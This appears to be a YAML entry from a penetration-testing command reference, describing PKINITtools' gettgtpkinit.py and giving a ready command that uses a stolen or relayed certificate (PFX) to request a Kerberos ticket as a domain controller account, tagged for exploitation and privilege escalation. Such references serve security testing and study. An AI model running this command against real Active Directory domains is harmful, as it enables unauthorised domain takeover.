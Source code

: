 ```yaml
---
description: |
  PKINIT gettgtpkinit.py request a TGT using a PFX file, either as file or as base64 encoded blob, or PEM files for cert+key. This uses Kerberos PKINIT and will output a TGT into the specified ccache. It will also print the AS-REP encryption key which you may need for the getnthash.py tool. 

  Command Reference:

    Domain: test.local

    Host that you got the certificate: DC01

    PFX file: crt.pfx

    PFX file password: password123

    TGT requested: out.ccache

command: |
  python3 gettgtpkinit.py test.local/DC01\$ -cert-pfx crt.pfx -pfx-pass password123 out.ccache
items:
  - Username
  - Password
  - PFX file
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
references:
  - https://github.com/dirkjanm/PKINITtools
  - https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/
---
```

